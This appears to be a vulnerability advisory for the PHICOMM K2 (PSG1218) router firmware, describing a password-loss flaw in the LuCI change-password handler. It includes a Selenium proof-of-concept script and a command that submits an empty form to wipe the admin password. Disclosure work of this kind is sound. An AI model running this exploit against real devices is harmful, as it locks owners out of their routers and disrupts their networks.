 - **Vendor Of The Product**

  PHICOMM

- **Affected Products and Firmware version**

  PHICOMM  K2(PSG1218)    V22.5.9.163

- **Vulnerability**

  Password Loss

- **Exploitation**

  Submit an empty form about changing password will cause a password loss vulnerability.

- **Affected Components**

  Affected source code file: /usr/lib/lua/luci/controller/admin/index.lua

  Affected function: gra_changepassword()

- **Vulnerability Details**

  Firstly, After the web login Authentication or a session hijack vulnerability, or a weak credentials brute force attack to get access permissions, we have established the session with the device.

  Once click the save button, we can see the invalid operation alert. Because our click trigger the related script to check the validity of values in the three inputs.

  But with the help of selenium, we can bypass the click check to submit the empty form to the device.

 ![change password ](fig/gra_changepassword_router.png)

  Then,we can see that the server use the empty data directly without checking whether the data is modified maliciously, causing the loss of password in config file.

![right password](fig/gra_changepassword_rightconfig.png)

![password loss](fig/gra_changepassword_loss.png)

  Finally, we have no way to log into the management page anymore.

  code show as below:

```python
#filename fuzzing.py
from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.remote.webelement import WebElement
import sys
import time

chrome_options = Options()
chrome_options.add_experimental_option('w3c',False)
driver = webdriver.Chrome(chrome_options=chrome_options)
homeURL = sys.argv[1]

def submit_empty_form(URL):
  driver.get(URL)
  time.sleep(20)
  #sleeping 20 seconds to login！
  e = driver.find_element_by_id('save_pwd')
  e.submit()
  driver.close()

submit_empty_form(sys.argv[1])
```

  executing the command python3 fuzzing.py http://192.168.2.1/cgi-bin/luci in the terminal will start the testing program and cause the password loss.
